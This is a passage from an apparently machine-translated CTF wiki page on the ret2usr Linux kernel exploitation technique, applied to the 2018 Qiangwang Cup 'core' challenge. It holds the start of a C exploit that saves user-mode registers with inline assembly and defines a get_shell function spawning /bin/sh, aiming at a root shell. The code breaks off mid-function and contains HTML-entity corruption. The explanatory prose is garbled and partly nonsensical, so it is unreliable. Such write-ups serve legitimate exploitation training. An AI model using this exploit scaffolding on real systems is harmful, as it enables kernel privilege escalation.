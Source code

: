 [EN](./ret2usr.md) | [ZH](./ret2usr-zh.md)
## ret2usr

The ret2usr attack exploits the user space of the user space to access the kernel space, but the kernel space can access the user space** This feature directs the kernel code or data stream to the user control, and performs the userspace code completion with the `ring 0` privilege. Wait for the operation.


### 2018 强网杯- core
The previous article analyzed the use of [kernel rop] (https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop/#kernel-rop-2018-core) to complete the lifting of the shell. Step, this analysis uses the ret2usr method to get the root shell.


The topic is no longer analyzed, directly analyzing exp.


```C

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/stat.h>

#include <fcntl.h>

#include <string.h>

#include <stdint.h>



size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()

{

	__asm__("mov user_cs, cs;"

			"mov user_ss, ss;"

			"mov user_sp, rsp;"

&quot;pushf;&quot;
			"pop user_rflags;"

			);

	puts("[*]status has been saved.");

}





void get_shell(void){

    system("/bin/sh");

```